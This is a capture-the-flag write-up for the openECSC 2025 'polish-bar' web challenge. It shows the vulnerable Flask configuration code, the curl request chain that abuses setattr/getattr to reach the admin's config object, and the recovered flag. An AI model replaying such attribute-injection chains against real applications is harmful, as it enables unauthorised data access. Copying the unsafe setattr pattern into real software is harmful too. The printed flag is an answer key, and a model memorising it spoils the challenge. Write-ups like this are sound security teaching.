 # openECSC 2025

## Challenge: polish-bar

## Tags: web

## Difficulty: Medium

## Table of Contents

- [Solution Overview](#solution-overview)
- [Tools Used](#tools-used)
- [Solution](#solution)
- [Flag](#flag)

### Solution Overview

Polish Bar is a Flask web application with a configuration system vulnerable to prototype pollution. The app stores all user configurations in a class variable `_all_instances`, including the admin's config which contains the flag as `preferred_beverage`. Through a chain of vulnerabilities in the property management system, I can: (1) access the `_all_instances` list via the property getter, (2) replace my `alcohol_shelf` with the instances list, (3) exploit a bug in `empty_alcohol_shelf()` that lets me access the first element of any list assigned to `alcohol_shelf`, effectively giving me the admin's configuration object. The flag is then displayed directly in the template when accessing my profile. The exploit abuses Python's dynamic attribute setting combined with poor input validation in the configuration management logic.

### Tools Used

- **curl** - For HTTP requests and cookie handling
- **Web browser** - For initial reconnaissance and understanding the UI

### Solution

When I first opened Polish Bar, I saw a beverage-themed web app that lets users manage their "alcohol shelf" and set preferred beverages. The UI hinted at some kind of configuration system - users could update their preferred beverage and manage drinks on their shelf.

Looking at the source code, I immediately spotted the dangerous configuration system in `config.py`. The `update_property()` method caught my eye:

```python
def update_property(self, key: str, val: str):
    attr = self.get_property(val)  # Gets value from property name
    if attr:
        setattr(self, key, attr)   # Sets any attribute to any value!
        return
    return { 'error': 'property doesn\'t exist!' }
```

**First thought**: "Wait, this lets me set ANY attribute to ANY value returned by `get_property()`!"

The `get_property` method was equally concerning:

```python
def get_property(self, val):
    try:
        if hasattr(self.alcohol_shelf, val):
            return getattr(self.alcohol_shelf, val)
        return getattr(self, val)  # This can access class variables!
    except:
        return
```

This method first checks attributes on `self.alcohol_shelf`, then falls back to `self`. Since Python classes can have class variables accessible through instances, this might let me access sensitive class-level data.

#### Finding the Target

Looking at how the admin session is set up in `app.py`:

```python
def admin_session_setup():
    session_id = str(uuid.uuid4())
    sessions[session_id] = {
        'username': 'admin',
        'password': str(os.urandom(10).hex()),
        'config': BeverageConfig(os.getenv('FLAG', 'openECSC{TEST_FLAG}'))
    }
```

**Aha!** The flag is stored as the admin's `preferred_beverage` in their `BeverageConfig`. Now I just need to find a way to access the admin's configuration.

#### The Key Insight: _all_instances

Examining the class hierarchy, I noticed something interesting in `PreferenceConfig`:

```python
class PreferenceConfig(AlcoholShelf):
    _all_instances = []
    
    def __init__(self, preferred_beverage: str):
        # ...
        BeverageConfig._all_instances.append(self)  # ALL instances get added!
```

**Breakthrough moment**: Every `BeverageConfig` instance (including the admin's) gets added to this `_all_instances` class variable! If I can access this list through `get_property()`, I might be able to reach the admin's config.

#### The Exploit Chain

Here's how my thinking progressed:

1. **"Can I access `_all_instances`?"**  
   Since it's a class variable, `getattr(self, '_all_instances')` should work.

2. **"But how do I get from the list to individual instances?"**  
   Lists don't have useful attributes for accessing elements through `getattr()`. I need another approach.

3. **"Wait, what if I replace my `alcohol_shelf` with the instances list?"**  
   If `self.alcohol_shelf = _all_instances`, then my alcohol shelf becomes the list of all configs!

4. **"But I still can't index into lists with `getattr()`..."**  
   Then I remembered the `empty_alcohol_shelf()` method and its weird logic:

```python
def empty_alcohol_shelf(self):
    if hasattr(self.alcohol_shelf, "_alcohol_shelf"):
        self.alcohol_shelf._alcohol_shelf = [self.alcohol_shelf._alcohol_shelf[0]]
    else:
        self.alcohol_shelf = self.alcohol_shelf[0]  # AHA!
```

**The final piece**: If my `alcohol_shelf` is a list (which doesn't have `_alcohol_shelf`), this method will execute `self.alcohol_shelf = self.alcohol_shelf[0]` - giving me the first element of the list!

#### Exploitation

First, I registered a user account to get a session:

```bash
curl -X POST "$TARGET/register" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "username=testuser&password=testpass" \
     -c cookies.txt
```

Then I tested my theory by trying to access `_all_instances`:

```bash
curl -X POST "$TARGET/config" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "config=preferred_beverage&value=_all_instances" \
     -b cookies.txt
```

**Success!** The response showed my preferred beverage was now a list of `BeverageConfig` objects. This confirmed that:

1. I can access class variables through `get_property()`
2. The `_all_instances` list contains multiple instances (including the admin's)

Next, I replaced my `alcohol_shelf` with the instances list:

```bash
curl -X POST "$TARGET/config" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "config=alcohol_shelf&value=_all_instances" \
     -b cookies.txt
```

The response showed my alcohol shelf now contained the `BeverageConfig` objects instead of drink names. Perfect!

Finally, I triggered the `empty_alcohol_shelf()` method to get the first instance:

```bash
curl -X POST "$TARGET/empty" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -b cookies.txt
```

**BOOM!** The response showed my preferred beverage was now `openECSC{gggrrrrrrr_ppyytthhonnn_ca53fbaf19bd}` - the flag from the admin's configuration!

### Flag

`openECSC{gggrrrrrrr_ppyytthhonnn_ca53fbaf19bd}`
